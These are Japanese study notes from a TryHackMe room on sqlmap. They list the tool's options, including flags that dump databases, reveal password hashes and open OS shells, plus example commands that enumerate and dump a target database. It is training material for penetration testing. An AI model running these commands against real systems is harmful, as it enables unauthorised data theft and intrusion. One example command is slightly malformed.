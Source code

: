 # sqlmap

https://tryhackme.com/room/sqlmap

## コマンドオプション

### 基本オプション

| オプション            | 説明                                                  |
| --------------------- | ----------------------------------------------------- |
| `-u URL`, `--url=URL` | 対象の URL（例: "http://www.site.com/vuln.php?id=1"） |
| `--data=DATA`         | POST で送信するデータ文字列（例: "id=1"）             |
| `--random-agent`      | ランダムに選ばれた HTTP User-Agent ヘッダーを使用     |
| `-p TESTPARAMETER`    | テスト対象のパラメータ                                |
| `--level=LEVEL`       | 実行するテストのレベル（1〜5、デフォルトは 1）        |
| `--risk=RISK`         | 実行するテストのリスクレベル（1〜3、デフォルトは 1）  |
| `-h`                  | ヘルプ                                                |
| `-hh`                 | Advanced ヘルプ                                       |

### 列挙オプション

| オプション        | 説明                                                   |
| ----------------- | ------------------------------------------------------ |
| `-a`, `--all`     | すべての情報を取得する                                 |
| `-b`, `--banner`  | DBMS のバナー情報を取得する                            |
| `--current-user`  | DBMS の現在のユーザーを取得する                        |
| `--current-db`    | DBMS の現在のデータベースを取得する                    |
| `--passwords`     | DBMS ユーザーのパスワードハッシュを列挙する            |
| `--dbs`           | DBMS のデータベースを列挙する                          |
| `--tables`        | DBMS のデータベーステーブルを列挙する                  |
| `--columns`       | DBMS のデータベーステーブルのカラムを列挙する          |
| `--schema`        | DBMS のスキーマを列挙する                              |
| `--dump`          | DBMS のデータベーステーブルのデータをダンプする        |
| `--dump-all`      | すべての DBMS データベーステーブルのデータをダンプする |
| `--is-dba`        | 現在の DBMS ユーザーが DBA（管理者）かどうかを検出する |
| `-D <DB NAME>`    | 列挙対象の DBMS データベースを指定する                 |
| `-T <TABLE NAME>` | 列挙対象の DBMS データベーステーブルを指定する         |
| `-C COL`          | 列挙対象の DBMS データベーステーブルのカラムを指定する |

### OS アクセスオプション

| オプション       | 説明                                                                          |
| ---------------- | ----------------------------------------------------------------------------- |
| `--os-shell`     | 対話型の OS シェルを起動するプロンプトを表示                                  |
| `--os-pwn`       | OOB シェル、Meterpreter、または VNC の起動プロンプトを表示                    |
| `--os-cmd=OSCMD` | 指定した OS コマンドを実行する                                                |
| `--priv-esc`     | データベースプロセスユーザーの権限昇格を試みる                                |
| `--os-smbrelay`  | ワンクリックで OOB シェル、Meterpreter、または VNC を起動するプロンプトを表示 |
| `--sql-shell`    | 対話型の SQL シェルを起動するプロンプトを表示                                 |

## 実行方法

Burp 等でファイル保存したリクエストを利用するのが簡単。

```shell
# DB名列挙
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs

# DB指定してテーブル名列挙
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables

# テーブル指定して列名を列挙
sqlmap -r req.txt -D <database_name> -T <table_name> --columns

# 全てをダンプ
sqlmap -r req.txt-p  -D <database_name> --dump-all

# GETの例
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```
